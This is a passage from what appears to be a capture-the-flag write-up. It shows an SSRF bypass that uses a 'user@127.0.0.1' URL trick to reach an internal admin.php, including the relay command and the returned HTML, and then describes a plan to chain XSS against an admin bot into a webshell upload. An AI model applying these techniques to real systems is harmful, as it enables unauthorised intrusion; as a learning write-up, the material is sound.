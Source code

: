 For get requests we can bypass this using the trick from above:

```
$ python relay.py 'http://10.13.37.13@127.0.0.1/admin.php'
http://10.13.37.13/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzQDEyNy4wLjAuMS9hZG1pbi5waHA=

<!DOCTYPE html>
<html lang="en">

[...]

<!DOCTYPE html>
<html lang="en">

[...]

    <div class="container">

      <div class="starter-template">
        <h1>Homepage - Admin Panel</h1>
        <p class="lead">Nothing.</p>       <!-- this is from the admin page -->
      </div>

    </div><!-- /.container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <script src="http://10.13.37.13/public/bootstrap.min.js"></script>
  </body>
</html>
</p>

[...]
</html>
```

Unfortunately this doesn't help us much, since there is no interesting
functionality reachable with `GET` requests.

### Abusing XSS to upload a webshell

The `admin.php` has an interesting feature. One can upload files to a known
location using `?page=upload`. But we have one problem, that we learned about
the hard way.

The bot first visists `http://127.0.0.1/admin.php?page=logs` and then clicks on
all the links that are not yet hidden and will hide them then. The links are
all to the host `http://13.37.37.13/`, because here they use a proper URL
parser to check the host. But then the bot's browser is not on the origin
`127.0.0.1` anymore and any request we perform to `http://127.0.0.1/admin.php`
is a cross-origin request. The same-origin policy at least prevents us from
reading the response. We tried firing blind file upload `POSTs` but that didn't
work out so well, probably because the `$_SERVER['REMOTE_ADDR']` s then set to
something other that `127.0.0.1`.

